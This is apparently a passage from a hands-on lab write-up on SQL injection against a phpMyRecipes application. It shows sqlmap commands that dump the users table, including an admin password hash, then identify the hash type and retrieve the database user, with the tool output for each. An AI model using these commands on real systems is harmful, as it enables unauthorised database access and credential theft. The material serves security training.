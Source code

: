 _Dump DBMS database table entries_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E -D 'recipes' -T 'users' --dump`:
```
[...]

Database: recipes
Table: users
[1 entry]
+----+-------+-------+--------------------+---------------+----------+
| id | email | privs | name               | password      | username |
+----+-------+-------+--------------------+---------------+----------+
| 1  | NULL  | 4096  | phpMyRecipes Admin | 6i1wgDRASJDhE | recipes  |📌
+----+-------+-------+--------------------+---------------+----------+

[18:14:05] [INFO] table 'recipes.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dump/recipes/users.csv'
[18:14:05] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:14:05 /2024-11-26/
```

`hash-identifier '6i1wgDRASJDhE'`:
```
   #########################################################################
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] DES(Unix)
--------------------------------------------------
```

_Retrieve DBMS current user_

`sqlmap -r ./request.txt -p 'words_exact' --technique=E --current-user`:
```
[...]

[18:48:30] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.5
[18:48:30] [INFO] fetching current user
[18:48:31] [INFO] retrieved: 'recipes@localhost'
current user: 'recipes@localhost'📌
[18:48:31] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com'

[*] ending @ 18:48:31 /2024-11-26/
```
